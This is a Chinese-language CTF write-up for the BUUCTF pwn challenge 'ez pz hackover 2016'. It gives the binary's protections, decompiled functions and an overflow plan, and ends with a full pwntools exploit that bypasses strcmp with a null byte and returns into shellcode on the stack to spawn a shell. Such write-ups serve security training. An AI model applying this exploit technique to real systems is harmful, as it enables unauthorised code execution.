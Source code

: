 ```yaml
---
author: 
  name: Zephyr
title: ez pz hackover 2016
date: 2022-3-25 17:31:03
permalink: /pages/2e1547494524d19a
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ez pz hackover 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ez_pz_hackover_2016/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  header();
  chall();
  return 0;
}
```

header函数如下

```c
int header()
{
  printf("\n");
  printf("             ___ ____\n");
  printf("      ___ __| _ \\_  /\n");
  printf("     / -_)_ /  _// / \n");
  printf("     \\___/__|_| /___|\n");
  printf("        lemon squeezy\n");
  return printf("\n\n");
}
```

vuln函数如下

```c
void *__cdecl vuln(char src, size_t n)
{
  char dest; // [esp+6h] [ebp-32h]

  return memcpy(&dest, &src, n);
}
```



chall函数如下

```c
int chall()
{
  size_t v0; // eax
  int result; // eax
  char s; // [esp+Ch] [ebp-40Ch]
  _BYTE *v3; // [esp+40Ch] [ebp-Ch]

  printf("Yippie, lets crash: %p\n", &s);
  printf("Whats your name?\n");
  printf("> ");
  fgets(&s, 1023, stdin);
  v0 = strlen(&s);
  v3 = memchr(&s, 10, v0);
  if ( v3 )
    *v3 = 0;
  printf("\nWelcome %s!\n", &s);
  result = strcmp(&s, "crashme");
  if ( !result )
    result = vuln((unsigned int)&s, 0x400u);
  return result;
}
```

## 思路分析

1. 目前信息：
   - 栈上s地址已知
   - 若输入crashme可进入vuln函数
   - vuln函数可溢出
   - 无system、/bin/sh及后门函数
   - No canary found
   - NX disabled
   - No PIE
   - Has RWX segments
2. 思路：
   - 利用`\x00`绕过strcmp为vuln函数中的溢出创造条件，另将shellcode写入栈上s的地址，返回到shellcode处获得shell

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ez_pz_hackover_2016/ez_pz_hackover_2016'
# io = remote("node4.buuoj.cn", 26153)
io = process(pwnfile)
io.recvuntil('Yippie, lets crash: ')
stack_s_addr = int(io.recvuntil('\nWhats your name?\n', drop=True), 16)
padding = 0x1a
shellcode = asm(shellcraft.sh())
payload = b'crashme\x00'.ljust(padding, b'a')
# s距离ebp的偏移为0x1a
payload += flat([stack_s_addr-0x1c, shellcode])
# 内存寻址机制导致shellcode距离stack_s_addr的偏移为0x1c(4的倍数)
io.sendafter('> ', payload)
io.interactive()
```